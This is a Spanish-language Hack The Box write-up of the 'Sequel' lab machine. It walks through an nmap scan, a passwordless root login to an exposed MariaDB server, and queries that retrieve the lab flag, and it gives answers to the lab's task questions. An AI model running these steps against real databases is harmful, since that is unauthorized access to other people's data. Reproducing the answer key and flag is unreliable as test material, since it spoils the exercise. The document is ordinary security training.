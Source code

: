 ```yaml
---
title: Sequel Writeup
date: 2023-05-19
categories: [Writeups, Hackthebox]
tags: [Starting Point, Linux, Very Easy]
---
```

![img](/assets/img/post/sequel/sequel.jpg)

Vamos a estar resolviendo la maquina sequel del starting point. 

Lo primero que vamos a hacer seria un ping a la ip de la maquina victima:
```bash
❯ ping -c 1 10.129.255.68
PING 10.129.255.68 (10.129.255.68) 56(84) bytes of data.
64 bytes from 10.129.255.68: icmp_seq=1 ttl=63 time=54.6 ms

--- 10.129.255.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.636/54.636/54.636/0.000 ms 

```
Le enviamos un paquete y recibimos el paquete de vuelta, esto quiere decir que la maquina esta activa.

Empezamos con el reconociento a la maquina victima, con nmap:
```bash 
❯ nmap -sC -sV 10.129.255.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 21:39 AST
Nmap scan report for 10.129.255.68 (10.129.255.68)
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.67 seconds
```
Miramos en nuestro escaneo que el servicio que esta corriendo en esta maquina es mysql, en este caso nos enfrentamos a una database.

Vamos a intetar conectarnos a esta base de datos con mysql:

```bash 
❯ mysql -h 10.129.255.68 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 56
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Al conectarnos a la database con el usuario root, ya tendriamos acceso a los datos.

Ahora listemos todas las base de datos que tenemos dentro de la maquina:

```sql
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.065 sec)
```

Miramos 4, vamos a selecionar htb para ver que info encotramos:
```sql
MariaDB [(none)]> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Listamos las tablas de esta:
```sql
MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (2 min 16.660 sec)
```

Quiero ver todo el contenido de la tabla config, para listarlo lo que hago es:
```sql
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.060 sec)
```
Aqui en los datos de la tabla podemos ver la flag, con esto tendriamos la parte practica completa.

Ahora pasamos a responder las preguntas de la maquina:

## Task 1. 
What does the acronym SQL stand for?
```text
Structured Query Language
```
## Task 2.

During our scan, which port running mysql do we find?
```text
3306
```
## Task 3.

What community-developed MySQL version is the target running?
```text 
MariaDB
```
## Task 4.

What switch do we need to use in order to specify a login username for the MySQL service?
```text
-u
```
## Task 5.

Which username allows us to log into MariaDB without providing a password?
```text
root
```
## Task 6.

What symbol can we use to specify within the query that we want to display everything inside a table?
```text
*
```
## Task 7.

What symbol do we need to end each query with?
```text
;
```
